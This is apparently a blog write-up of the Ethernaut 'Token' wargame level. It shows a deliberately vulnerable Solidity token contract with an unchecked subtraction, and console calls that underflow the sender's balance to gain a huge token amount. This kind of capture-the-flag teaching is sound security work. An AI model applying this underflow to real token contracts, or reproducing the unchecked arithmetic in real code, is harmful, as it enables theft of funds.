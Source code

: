 ```yaml
---
layout: post
title: Ethernaut - 5.Token
date:  2022-08-27
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌑🌑🌑
> The goal of this level is for you to hack the basic token contract below.<br />
  You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.<br /> <br />
  Things that might help:
  - What is an odometer?

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

## Writeup
There is a famous security pitfall. We can use technique **Underoverflow** to complete this level.
1. Get new instance.
2. Call the method 
    ``` javascript

    await contract.balanceOf('YOUR_ACCOUNT').then(v=>v.toString())

    ```
  It will return default balance `20` .
3. Call the method
    ``` javascript

    await contract.transfer('OTHER_ACCOUNT', 1000000)

    ```
4. Call the method 
    ``` javascript

    await contract.balanceOf('YOUR_ACCOUNT').then(v=>v.toString())

    ```
  It will return a very big amount.
5. Submit instance ξ( ✿＞◡❛)


![](https://i.imgur.com/YINZhWH.png)
